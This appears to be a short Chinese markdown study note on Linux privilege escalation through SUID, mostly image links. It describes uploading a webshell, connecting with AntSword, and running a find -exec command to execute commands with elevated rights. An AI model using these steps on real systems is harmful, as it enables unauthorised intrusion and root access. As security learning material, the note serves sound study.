 ![Alt text](../../cyber_security/images/image52.png)


### Linux提权 - SUID提权
- 使用文件上传，用蚁剑连接上传的webshell
![Alt text](image-2.png)
- 利用find命令提权
```
find / -name one.php -exec "whoami" \;
```